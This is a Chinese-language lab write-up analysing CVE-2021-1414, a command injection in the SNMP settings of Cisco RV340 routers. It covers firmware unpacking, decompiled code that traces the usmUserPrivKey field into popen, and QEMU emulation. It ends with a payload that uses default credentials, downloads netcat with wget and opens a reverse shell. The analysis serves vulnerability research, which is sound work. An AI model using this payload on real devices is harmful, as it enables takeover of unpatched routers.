




## 5. 漏洞分析与利用
这里以思科路由器为例子，来分析一下 cve-2021-1414 漏洞，一个命令注入漏洞
### 漏洞概述
CVE-2021-1414，JSON-RPC 请求的处理中存在命令注入，解析 usmUserPrivKey 字段时，程序在使用用户提供的字符串执行系统调用之前未验证字段的合法性，导致命令注入。
漏洞可以利用于固件版本 V1.0.03.20 以及低于此版本的 RV340 系列路由器中，V1.0.03.21 已经修复了此漏洞

### 固件信息
厂商：Cisco
固件版本：RV34X-v1.0.03.18-2020-06-11-11-55-25-AM
厂商地址：https://www.cisco.com
下载地址：https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.18

### 固件解包
首先解包固件，这个固件有点特殊，有很多层，可以利用 binwalk 的递归解包
```python
binwalk -Me RV34X-v1.0.03.18-2020-06-11-11-55-25-AM.img  --preserve-symlinks
```

或者安装 unblob 进行解包
unblob 安装
```python
git clone https://github.com/onekey-sec/unblob.git
cd unblob
poetry install --no-dev
sudo apt install e2fsprogs p7zip-full unar zlib1g-dev liblzo2-dev lzop lziprecover img2simg libhyperscan-dev zstd
sudo apt install simg2img
sudo apt install lziprecover

poetry run unblob --show-external-dependencies
```

squashfs support
```python
curl -L -o sasquatch_1.0_amd64.deb https://github.com/onekey-sec/sasquatch/releases/download/sasquatch-v4.5.1-4/sasquatch_1.0_amd64.deb
sudo dpkg -i sasquatch_1.0_amd64.deb
rm sasquatch_1.0_amd64.deb
```

解包指令
```python
poetry run unblob RV34X-v1.0.03.18-2020-06-11-11-55-25-AM.img
```

解包后可以得到一个嵌套的目录结构


我们要分析的固件应该是在：
- RV34X-v1.0.03.18-2020-06-11-11-55-25-AM.img_extract
	- 64-72350826.gzip_extract/gzip.uncompressed_extract
		- fw.gz_extract/gzip.uncompressed_extract
			- openwrt-comcerto2000-hgw-rootfs-ubi_nand.img_extract

这一层目录下



然后先确定一下系统架构

可以发现是 arm 的架构

### 固件逆向
然后我们现在要确定代码审计的目标，所以我们可以去搜索一下 cve



总结一下就是：
JSON-RPC 请求的处理中存在特定缺陷，set_snmp 中的 usmUserPrivKey 字段可以被命令注入

于是先在文件系统中搜索 JSON-RPC 等关键字
找到一个 jsonrpc.cgi


于是先对这个 cgi 程序进行逆向
前面都是一些获取环境变量初始化操作，然后读取 json 放到 heap 上保存


关键点是这个 sub_14D28 函数
```cpp
void __fastcall sub_14D28(int a1, _DWORD *a2)
{
  const char *v2; // r4
  int v5; // r8
  __pid_t pid; // r0
  bool v7; // zf
  int v8; // r5
  __pid_t v9; // r0
  int v10; // r2
  int v11; // r3
  __pid_t v12; // r0
  int v13; // [sp+Ch] [bp-2Ch] BYREF
  struct timeval tv; // [sp+10h] [bp-28h] BYREF
  struct timeval v15; // [sp+18h] [bp-20h] BYREF

  v2 = *(const char **)(a1 + 20);
  v5 = *(_DWORD *)(a1 + 24);
  v13 = 0;
  pid = getppid();
  debug("[%d|%s] - begin.", pid, v2);
  v7 = v5 == 0;
  if ( v5 )
    v7 = v2 == 0;
  if ( !v7 )
  {
    gettimeofday(&tv, 0);
    v8 = sub_149FC(a1, (int)&v13);              // 关键点
    if ( v8 )
    {
      v9 = getppid();
      info("[%d|%s] - ret=%d.", v9, v2, v8);
    }
    *a2 = v13;
    gettimeofday(&v15, 0);
    v10 = v15.tv_sec - tv.tv_sec;
    v15.tv_sec -= tv.tv_sec;
    v11 = v15.tv_usec - tv.tv_usec;
    v15.tv_usec -= tv.tv_usec;
    if ( v15.tv_usec < 0 )
    {
      v15.tv_sec = v10 - 1;
      v15.tv_usec = v11 + 1000000;
    }
    v12 = getppid();
    info("[%d|%s] - end. elapsed=%lu.%06lu", v12, v2, v15.tv_sec, v15.tv_usec);
  }
}
```

这个函数会把 json 传入给 sub_149FC
然后再来看看 sub_149FC 函数，这个函数的功能是根据用户传入的 RPC 执行不同的操作
```cpp
int __fastcall sub_149FC(int a1, int a2)
{
  const char *v3; // r4
  int v5; // r1
  const char *v6; // r2
  int v8; // r0
  int v9; // r4

  v3 = *(const char **)(a1 + 20);
  if ( !v3 )
    return 0;
  if ( !strcmp(*(const char **)(a1 + 20), "login")
    || !strcmp(v3, "logout")
    || !strcmp(v3, "u2d_check_password")
    || !strcmp(v3, "u2d_change_password")
    || !strcmp(v3, "change_password")
    || !strcmp(v3, "add_users")
    || !strcmp(v3, "set_users")
    || !strcmp(v3, "del_users") )
  {
    return sub_13F9C((_DWORD *)a1, (_DWORD *)a2);
  }
  if ( !strcmp(v3, "get_downloadstatus")
    || !strcmp(v3, "get_wifi_button_state")
    || !strcmp(v3, "check_config")
    || !strcmp(v3, "get_model_tree")
    || !strcmp(v3, "get_timezones") )
  {
    if ( sub_12DB4(a1, 1, 2) )
      return 0;
    v8 = sub_14198(a1, (_DWORD *)a2);
  }
  else if ( !strncmp(v3, "get_", 4u) || !strncmp(v3, "u2d_get_", 8u) )
  {
    if ( sub_12DB4(a1, 1, 2) )
      return 0;
    v8 = sub_13B3C(a1, a2);
  }
  else if ( !strcmp(v3, "set_bulk") )
  {
    if ( sub_12DB4(a1, 2, 2) )
      return 0;
    v8 = sub_14620((_DWORD *)a1, (int *)a2);
  }
  else if ( !strncmp(v3, "set_", 4u) || !strncmp(v3, "del_", 4u) || !strncmp(v3, "u2d_set_", 8u) )
  {
    if ( sub_12DB4(a1, 2, 2) )
      return 0;
    v8 = sub_13BA0(a1, a2, 1);
  }
  else
  {
    if ( strncmp(v3, "action", 6u) && strncmp(v3, "u2d_rpc_", 8u) )
    {
      error((int)"ERROR METHOD CASE !!!", v5, v6);
      return 0;
    }
    if ( sub_12DB4(a1, 1, 2) )
      return 0;
    v8 = sub_13E2C(a1, a2);
  }
  v9 = v8;
  sub_12D88(v8);
  return v9;
}
```
因为要传入 set_snmp，所以应该分析一下 set_snmp 传入之后程序的调用逻辑，也就是分析一下 sub_12DB4 函数和 sub_13BA0 函数

这个函数主要是从 JSON 数据中提取用户和组信息，然后判断 session 是否合法，合法就进入 sub_13BA0
```cpp
int __fastcall sub_12DB4(int a1, int a2, int a3)
{
  int v4; // r7
  void *v7; // r0
  void **v8; // r3
  int v9; // r1
  const char *v10; // r2
  int v11; // r3
  void *v12; // r4
  int v13; // r3
  int v14; // r4
  int v16; // [sp+10h] [bp-48h] BYREF
  char *v17; // [sp+14h] [bp-44h] BYREF
  int s[16]; // [sp+18h] [bp-40h] BYREF

  v4 = *(_DWORD *)(a1 + 4);
  v16 = 0;
  v17 = 0;
  v7 = memset(s, 0, 0x28u);
  v8 = *(void ***)(a1 + 12);
  if ( v8 && (v7 = *v8) != 0 && (v7 = (void *)sub_12AA4((int)v7), (v12 = v7) != 0) )
  {
    if ( !jsonutil_get_string(v7, &v16, "user", v11) && !jsonutil_get_string(v12, &v17, "group", v13) )
    {
      s[0] = (int)strdup(v17);
      if ( s[0] )
      {
        v14 = sub_12CB4(v16, 0, s, 0, v4, a2, a3);
        free((void *)s[0]);
        return v14;
      }
    }
  }
  else
  {
    sub_12DA8(v7);
    error((int)"Session not found \n", v9, v10);
  }
  return -1;
}
```

sub_13BA0
这个函数主要是处理 JSON-RPC 请求的回应，主要是用 jsonrpc_set_config 处理 set_snmp 请求
```cpp
int __fastcall sub_13BA0(_DWORD *a1, int *a2, int a3)
{
  int v3; // r8
  int v7; // r9
  int v8; // r4
  int v9; // r5
  int v10; // r0
  int v11; // r0
  int v12; // r1
  int v13; // r2
  int v14; // r3
  const char *v15; // r6
  int v16; // r0
  int v17; // r2
  const char *v18; // r0
  const char *v19; // r6
  int v20; // r0
  char *v21; // r1
  char *v22; // r1
  const char *v23; // r0
  int v24; // r0
  int v25; // r0
  int v26; // r0
  int v27; // r0
  int v28; // r2
  int result; // r0
  int v30; // [sp+0h] [bp-38h] BYREF
  int v31; // [sp+4h] [bp-34h] BYREF
  char v32[16]; // [sp+8h] [bp-30h] BYREF

  v3 = a1[5];
  v7 = a1[6];
  v8 = json_object_new_object(a1);
  v30 = 0;
  if ( v3 && jsonrpc_set_table_by_method((int)v32, v3) )
  {
    v10 = jsonrpc_set_config((int)v32, 0, v7, (int)&v30);
    v9 = v10;
    if ( v10 || !a3 )
    {
      v27 = json_object_new_int(v10);
      json_object_object_add(v8, "code", v27);
      v28 = v30;
      if ( !v30 )
        v28 = json_object_new_string("");
      json_object_object_add(v8, "errstr", v28);
    }
    else
    {
      v11 = sub_12D78();
      v9 = v11;
      if ( v11 )
      {
        v31 = StrBufCreate(v11, v12, v13);
        v18 = (const char *)confd_lasterr();
        v19 = v18;
        if ( v18 )
        {
          if ( strstr(v18, "firewall-acl-rules") )
          {
            v20 = v31;
            v21 = "Access Rules Table on Access Rules page";
          }
          else if ( strstr(v19, "static-routes") )
          {
            v20 = v31;
            v21 = "Route Table on Static Routing page";
          }
          else if ( strstr(v19, "policy-routing") )
          {
            v20 = v31;
            v21 = "Policy Binding Table on Multi-WAN page";
          }
          else if ( strstr(v19, "captive-portal") )
          {
            v20 = v31;
            v21 = "Portal Profile Table on Captive Portal page";
          }
          else
          {
            v22 = strstr(v19, "errorcode=");
            v20 = v31;
            if ( v22 )
            {
              if ( v22 == (char *)-10 )
                v21 = "";
              else
                v21 = v22 + 10;
            }
            else
            {
              v21 = (char *)v19;
            }
          }
        }
        else
        {
          v20 = v31;
          v21 = "Unknown Error";
        }
        StrBufSetStr(v20, v21);
        v23 = (const char *)StrBufToStr(v31);
        warn("Error: %s\n", v23);
        v24 = json_object_new_int(v9);
        json_object_object_add(v8, "code", v24);
        v25 = StrBufToStr(v31);
        v26 = json_object_new_string(v25);
        json_object_object_add(v8, "errstr", v26);
        StrBufFree(&v31);
      }
      else
      {
        v14 = a1[3];
        if ( v14 )
          v15 = *(const char **)(v14 + 4);
        else
          v15 = 0;
        v16 = json_object_new_int(0);
        json_object_object_add(v8, "code", v16);
        v17 = v30;
        if ( !v30 )
          v17 = json_object_new_string("");
        json_object_object_add(v8, "errstr", v17);
        if ( v15 && *v15 )
          info("%s is changed.\n", v15);
      }
    }
  }
  else
  {
    v9 = 0;
  }
  result = v9;
  *a2 = v8;
  return result;
}
```

所以我用 grep 指令搜索 jsonrpc_set_config 以及 usmUserPrivKey
```python
grep -Rn "jsonrpc_set_config" * 2>/dev/null
grep -Rn "usmUserPrivKey" * 2>/dev/null
```

找到一个 libjsess.so 文件
```python
Binary file usr/lib/libjsess.so matches
```

搜索关键字，可以找到一个 setpre__snmp 函数，这里面有对 usmUserPrivKey 的处理逻辑
```cpp
int __fastcall setpre__snmp(int a1, int a2, _DWORD *a3)
{
  int sess_sock; // r7
  int sess_tid; // r6
  const char *v6; // r4
  int v7; // r10
  int idx; // r5
  const char *v9; // r9
  const char *v10; // r9
  unsigned __int8 *v11; // r1
  char *v12; // r3
  int v13; // r2
  int v14; // t1
  bool v15; // zf
  int v16; // r2
  const char *v17; // r2
  int v18; // r3
  const char *v19; // r3
  bool v20; // zf
  int v21; // r0
  char *v22; // r0
  char *v23; // r9
  int i; // r0
  char *v25; // r0
  char *v26; // r9
  int j; // r0
  int v28; // r0
  int v29; // r2
  int v30; // r0
  int v31; // r2
  int v32; // r0
  int v33; // r0
  int v34; // r0
  const char *v35; // r2
  bool v36; // zf
  int v37; // r5
  int k; // r4
  int v39; // r8
  int v40; // r0
  int result; // r0
  const char *v42; // [sp+10h] [bp-468h]
  char *s1; // [sp+14h] [bp-464h]
  int v44; // [sp+18h] [bp-460h]
  const char *v45; // [sp+1Ch] [bp-45Ch]
  FILE *stream; // [sp+20h] [bp-458h]
  int string; // [sp+24h] [bp-454h]
  int v48; // [sp+28h] [bp-450h]
  int v49; // [sp+30h] [bp-448h]
  int v50; // [sp+34h] [bp-444h]
  int v52; // [sp+40h] [bp-438h] BYREF
  int v53; // [sp+44h] [bp-434h] BYREF
  int v54; // [sp+48h] [bp-430h] BYREF
  char *v55; // [sp+4Ch] [bp-42Ch] BYREF
  char v56[128]; // [sp+50h] [bp-428h] BYREF
  char s[128]; // [sp+D0h] [bp-3A8h] BYREF
  char v58[11]; // [sp+150h] [bp-328h] BYREF
  char v59[245]; // [sp+15Bh] [bp-31Dh] BYREF
  char v60[552]; // [sp+250h] [bp-228h] BYREF

  sess_sock = jsess_get_sess_sock(g_h_sess_db);
  sess_tid = jsess_get_sess_tid(g_h_sess_db);
  v48 = jsonutil_get(a2, "SNMP-USER-BASED-SM-MIB");
  if ( v48 )
  {
    if ( maapi_exists(sess_sock, sess_tid, "/SNMP-USER-BASED-SM-MIB/usmUserTable/usmUserEntry") )
      maapi_delete(sess_sock, sess_tid, "/SNMP-USER-BASED-SM-MIB/usmUserTable/usmUserEntry");
    v6 = 0;
    v7 = 0;
    v42 = 0;
    v45 = 0;
    v44 = 0;
    s1 = 0;
    string = 0;
    while ( v7 < json_object_array_length(v48) )
    {
      idx = json_object_array_get_idx(v48, v7);
      if ( json_object_object_get_ex(idx, "usmUserEngineID", &v52) )
        string = json_object_get_string(v52);
      if ( json_object_object_get_ex(idx, "usmUserSecurityName", &v52) )
        s1 = (char *)json_object_get_string(v52);
      if ( json_object_object_get_ex(idx, "usmUserPrivProtocol", &v52) )
      {
        v9 = (const char *)json_object_get_string(v52);
        if ( strcmp(v9, "1.3.6.1.6.3.10.1.2.1") )
        {
          if ( !strcmp(v9, "1.3.6.1.6.3.10.1.2.2") )
          {
            v6 = "des";
          }
          else if ( !strcmp(v9, "1.3.6.1.6.3.10.1.2.4") )
          {
            v6 = "aes";
          }
        }
      }
      if ( json_object_object_get_ex(idx, "usmUserPrivKey", &v52) )
        v44 = json_object_get_string(v52);
      if ( json_object_object_get_ex(idx, "usmUserAuthProtocol", &v52) )
      {
        v10 = (const char *)json_object_get_string(v52);
        if ( strcmp(v10, "1.3.6.1.6.3.10.1.1.1") )
        {
          if ( !strcmp(v10, "1.3.6.1.6.3.10.1.1.2") )
          {
            v42 = "md5";
          }
          else if ( !strcmp(v10, "1.3.6.1.6.3.10.1.1.3") )
          {
            v42 = "sha";
          }
        }
      }
      if ( json_object_object_get_ex(idx, "usmUserAuthKey", &v52) )
        v45 = (const char *)json_object_get_string(v52);
      if ( string )
      {
        v53 = 0;
        v54 = 0;
        memset(v56, 0, sizeof(v56));
        memset(s, 0, sizeof(s));
        v11 = (unsigned __int8 *)string;
        v12 = v56;
        do
        {
          v14 = *v11++;
          v13 = v14;
          if ( !v14 )
            break;
          if ( v13 != ':' )
            *v12++ = v13;
        }
        while ( v11 );
        *v12 = 0;
        v15 = v45 == 0;
        if ( v45 )
          v15 = v42 == 0;
        v16 = !v15;
        v49 = v16;
        if ( v15 )
        {
          v33 = json_object_new_string("");
          json_object_object_add(idx, "usmUserAuthKey", v33);
          v34 = json_object_new_string("");
          json_object_object_add(idx, "usmUserPrivKey", v34);
        }
        else
        {
          if ( v6 )
            v17 = v6;
          else
            v17 = "";
          v18 = (int)v6;
          if ( v6 )
            v18 = 1;
          v50 = v18;
          v19 = (const char *)v44;
          v20 = v44 == 0;
          if ( v44 )
            v20 = v6 == 0;
          if ( v20 )
            v19 = "";
          v21 = sprintf(v60, "perl /usr/bin/snmpkey %s %s %s %s %s", v42, v45, v56, v17, v19);
          v53 = StrBufCreate(v21);
          v54 = StrBufCreate(v53);
          stream = popen(v60, "r");             // 命令注入
          if ( stream )
          {
            while ( fgets(v58, 256, stream) )
            {
              if ( strstr(v58, "authKey: 0x") )
              {
                v22 = strtok_r(v59, "\r\n", &v55);
                v23 = v22;
                if ( v22 && *v22 )
                {
                  for ( i = v53; ; i = v53 )
                  {
                    StrBufAppendChar(i);
                    v23 += 2;
                    StrBufAppendChar(v53);
                    if ( !*v23 )
                      break;
                    StrBufAppendChar(v53);
                  }
                }
              }
              else if ( strstr(v58, "privKey: 0x") )
              {
                v25 = strtok_r(v59, "\r\n", &v55);
                v26 = v25;
                if ( v25 )
                {
                  if ( *v25 )
                  {
                    for ( j = v54; ; j = v54 )
                    {
                      StrBufAppendChar(j);
                      v26 += 2;
                      StrBufAppendChar(v54);
                      if ( !*v26 )
                        break;
                      StrBufAppendChar(v54);
                    }
                  }
                }
              }
            }
            fclose(stream);
          }
          if ( StrBufIsOK(v53) )
          {
            v28 = StrBufToStr(v53);
            v29 = json_object_new_string(v28);
          }
          else
          {
            v29 = json_object_new_string("");
          }
          json_object_object_add(idx, "usmUserAuthKey", v29);
          if ( v50 && StrBufIsOK(v54) )
          {
            v30 = StrBufToStr(v54);
            v31 = json_object_new_string(v30);
            v32 = idx;
          }
          else
          {
            v31 = json_object_new_string("");
            v32 = idx;
          }
          json_object_object_add(v32, "usmUserPrivKey", v31);
          StrBufFree(&v53);
          StrBufFree(&v54);
        }
        if ( s1 )
        {
          if ( !strcmp(s1, "admin") )
            v35 = "admin";
          else
            v35 = "readonly";
        }
        else
        {
          v35 = "readonly";
        }
        if ( v49 )
        {
          v36 = v44 == 0;
          if ( v44 )
            v36 = v6 == 0;
          if ( v36 )
            sprintf(s, "%s_authNoPriv", v35);
          else
            sprintf(s, "%s_authPriv", v35);
        }
        else
        {
          sprintf(s, "%s_noAuthNoPriv", v35);
        }
        maapi_set_elem2(
          sess_sock,
          sess_tid,
          s,
          "/SNMP-VIEW-BASED-ACM-MIB/vacmSecurityToGroupTable/vacmSecurityToGroupEntry{3 %s}/vacmGroupName",
          s1);
      }
      ++v7;
    }
  }
  if ( jsonutil_get(a2, "SNMP-TARGET-MIB") && maapi_exists(sess_sock, sess_tid, &unk_2DA39) )
    maapi_delete(sess_sock, sess_tid, &unk_2DA39);
  v37 = jsonutil_get(a2, "SNMP-COMMUNITY-MIB");
  if ( v37 )
  {
    if ( maapi_exists(sess_sock, sess_tid, &unk_2DA98) )
      maapi_delete(sess_sock, sess_tid, &unk_2DA98);
    for ( k = 0; k < json_object_array_length(v37); ++k )
    {
      v39 = json_object_array_get_idx(v37, k);
      v40 = json_object_new_string("80:00:61:81:05:01");
      json_object_object_add(v39, "snmpCommunityContextEngineID", v40);
    }
  }
  result = 0;
  *a3 = a2;
  return result;
}
```

代码审计这个函数之后可以发现，popen 存在命令注入，可以通过字段 usmUserPrivKey 进行注入


### qemu仿真
然后仿真复现一下这个漏洞
qemu 的启动命令
```python
sudo qemu-system-arm \
	-M vexpress-a9 \
	-kernel vmlinuz-3.2.0-4-vexpress \
	-initrd initrd.img-3.2.0-4-vexpress \
	-drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
	-append "root=/dev/mmcblk0p2 console=ttyAMA0" \
	-net nic \
	-net tap,ifname=tap0,script=no,downscript=no \
	-nographic
```

然后会有个报错
```python
qemu-system-arm: Invalid SD card size: 25 GiB
SD card size has to be a power of 2, e.g. 32 GiB.
You can resize disk images with 'qemu-img resize <imagefile> <new-size>'
(note that this will lose data if you make the image smaller than it currently is).

qemu-img resize debian_wheezy_armhf_standard.qcow2 32G
```
应该是镜像大小不是 2的n 次方

我们可以手动调整大小
```python
qemu-img resize debian_wheezy_armhf_standard.qcow2 32G
```

之后就可以正常运行 qemu

启动 qemu 之后配置一下网络
虚拟机里：
```python
sudo tunctl -t tap0 -u `whoami`  # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡
sudo ifconfig tap0 10.10.10.1/24 # 为添加的虚拟网卡配置 IP 地址
```
qemu里：
```python
ifconfig eth0 10.10.10.2/24
ping -c 3 10.10.10.1 # 测下网
```

这里有个坑，如果直接传入 squashfs-root，var 下的软链接会出问题，导致后面 nginx 服务无法正常启动

然后将 squashfs-root 传入 qemu 中
```python
tar zcvf 1.tar squashfs-root
sudo scp -r 1.tar root@10.10.10.2:/root/
```

然后挂载目录，进行 chroot
```python
tar zxvf 1.tar
chmod -R 777 squashfs-root

# 然后挂载文件系统
mount -o bind /dev ./squashfs-root/dev/
# mount -t sys /sys/ ./squashfs-root/sys/
mount -t proc /proc/ ./squashfs-root/proc/
chroot ./squashfs-root sh
```

因为思科路由器的 web 服务框架为 nginx 框架，所以我们启动 nginx
```python
/etc/init.d/boot boot
generate_default_cert
/etc/init.d/confd start
/etc/init.d/nginx start
/etc/init.d/nginx stop
```

然后就能访问 cisco 的登录页面了，上网查找 cisco 的弱密码，发现用户名和密码都是 cisco，于是绕过登录页面，直接进入系统设置页面


然后进入 SNMP 功能，记得选择 v3，不然命令注入的字段无法设置，这个 Authentication Password 就是可以命令注入的字段了，我们抓包进行重放即可返弹一个 shell 出来



我们先命令执行一个 wget 命令，拉取一个 netcat，然后再用 netcat 进行反向连接即可
```python
"usmUserPrivKey":"123;cd /;wget http://10.10.10.1:88/netcat;chmod 777 netcat;./netcat 10.10.10.1 12345 -e sh;",
```


